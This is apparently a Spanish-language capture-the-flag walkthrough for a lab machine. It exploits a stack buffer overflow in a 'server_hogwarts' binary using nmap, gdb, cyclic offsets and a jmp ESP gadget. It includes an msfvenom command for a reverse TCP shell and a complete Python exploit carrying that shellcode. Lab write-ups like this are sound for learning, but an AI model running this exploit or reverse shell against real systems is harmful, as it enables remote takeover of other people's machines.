 [[192.168.100.7(Nagini)]]

Haremos un [[NMAP]]
`nmap -sT -Pn -p- --open -T5 -v -n 192.168.100.5`

```python
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
9898/tcp open  monkeycom
```

Vemos que el puerto del FTP esta activado así que vamos a probar a conectarnos, vemos que se puede acceder como usuarios `anonymous`

Vemos un binario llamado `server_hogwarts` así que con strace vamos a ver que es lo que hace y en que consiste: `strace ./server_hogwarts`, vemos que lo que realiza es montar un servidor por el puerto `9898`

Si ejecutamos el binario podremos acceder a el con netcat usando `nc localhost 9898` que es el puerto que estaba abierto durante el nmap.
El binario pide un input así que si no se ha definido bien un tamaño de buffer sin sanitizarlo se podría acontecer un bufferoverflow

Para poder realizar esto nos ejecutaremos el programa con la herramienta de gdb: `gdb ./server_hpgwarts -q` y para correr la herramienta usaremos la r una vez dentro de gdb.

Y en la otra terminal nos conectamos con netcat e introducimos todas las "A" posibles, y llenaremos el EIP de "A" o en hexadecimal 4141414141.

Si ejecutamos checsec nos mostrara si NX esta desactivado que nos permitirá hacer que un flujo de la pila se interprete cómo shellcode

En gdb haremos `cyclic 1024` para que nos cree un patrón de letras para identificar donde se llena el EIP
Una vez se llena el EIP copiamos el valor hexadecimal y ejecutamos `cyclic -o 0x62616164` y te dice en que bite esta el offset

Ahora para apuntar al EIP directamente usaremos el siguiente comando de python para llenar el EIP y verificar que se llena de "B" `python3 -c 'print("A"*112 + "B"*4 +"C"*100)'` y al llenarlo nuestro ESP apunta al comienzo de las letra "C" 

Ahora tenemos que hacer que EIP apunte directamente al ESP para que una vez salte a este se ejecute un shellcode

Necesitaremos realizar un shellcode que haremos con msfvenom:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.7 LPORT=5555 -b '\x00\x0a\x0d' -f py -v shellcode`

Usaremos objdump para encontrar el OpCode que hace el salto al ESP
Para saber a donde se corresponde el OpCode usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` e introducimos `jmp ESP` nos dice que el OpCode corresponde a `FFE4`

Ahora objdum ejecutamos:
`objdump -D server_hogwarts| grep "ff e4"`

Nos mostrara direcciones que realizan ese salto que buscábamos en este caso: ``
`8049d55` tiene que estar en little endian así que le damos la vuelta en el código

Vamos a realizar un `exploit.py` para realizar esto:
```python
#!/usr/bin/python3

import socket

offset = 112
before_eip = b"A"*offset

eip = b"\x55\x9d\x04\x08" # 8049d55 jump ESP

shellcode = b""
shellcode += b"\xdb\xd8\xd9\x74\x24\xf4\xb8\x74\xc6\xd0\xaa"
shellcode += b"\x5b\x29\xc9\xb1\x12\x31\x43\x17\x03\x43\x17"
shellcode += b"\x83\x9f\x3a\x32\x5f\x6e\x18\x44\x43\xc3\xdd"
shellcode += b"\xf8\xee\xe1\x68\x1f\x5e\x83\xa7\x60\x0c\x12"
shellcode += b"\x88\x5e\xfe\x24\xa1\xd9\xf9\x4c\xf2\xb2\x9e"
shellcode += b"\x89\x9a\xc0\x5e\x84\xe9\x4c\xbf\x16\x6b\x1f"
shellcode += b"\x11\x05\xc7\x9c\x18\x48\xea\x23\x48\xe2\x9b"
shellcode += b"\x0c\x1e\x9a\x0b\x7c\xcf\x38\xa5\x0b\xec\xee"
shellcode += b"\x66\x85\x12\xbe\x82\x58\x54"

after_eip = b"\x90"*32 + shellcode # ESP

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.100.5", 9898))
s.send(payload)
s.close()
```

En la maquina [[192.168.100.7(Nagini)]] con socat deberemos configurar el renvio de paquetes



